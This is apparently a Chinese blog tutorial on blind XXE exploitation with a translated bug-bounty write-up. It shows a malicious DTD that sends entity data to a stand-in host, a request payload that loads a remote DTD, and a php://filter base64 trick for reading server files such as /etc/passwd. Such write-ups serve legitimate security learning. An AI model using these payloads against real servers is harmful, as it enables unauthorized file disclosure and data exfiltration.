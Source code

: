 实体相当于变量 "file:///etc/passwd"赋值给name

外部实体类型有

![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/xxe2.png)

### 0x02 简单实例

将以下放到 vps上
```
<!ENTITY % info "1234"> 

<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://XXX.com/?xxe_l=%info;'>">

%int;

%trick;
```

	%号为&#37;

请求中添加下列code
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://xxx/1.xml">%remote;]>
```

![信息收集](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/xxe1.png)

查看日志 可获得请求ip

### 0x03 翻译

与任何赏金猎人开始一样，侦察对于尽可能多地识别资产是必要的。通过这次侦察，我发现了一个引起我兴趣的子域。然后我暴力强制子域的目录，并找到了利用点，通过GET请求访问此导致以下页面：
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/xxe3.png)
我注意到response，xml content-type和包含XML SOAP的xml，因为没有GET参数，改为POST请求，相应200，无内容。
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/xxe4.png)
由于对POST相应200，而不是发出405 method not allow,所以我决定包含xml，Content-type: application/xml
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/xxe5.png)
这次也是发送GET请求，但是这次，标签相应的是"OK"，而不是"TestRequestCalled",尝试发送json请求。
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/xxe6.png)
看到相应空白，我坚信正在处理XML数据。这使我把DTD文件放到vps上。
![xxe](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/xxe7.png)
我也开始使用这个[https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)脚本,和用ftp服务器监听以至于能获取服务器信息/文件内容

### 0x04 可能碰到情况
php 读取文件中有<等符号 利用php伪协议 php://filter 利用base64编码
php://filter/read=convert.base64-encode/resource=file://xxx/xxx.php

	里层嵌套为字符实体 例如 %为 &#37;
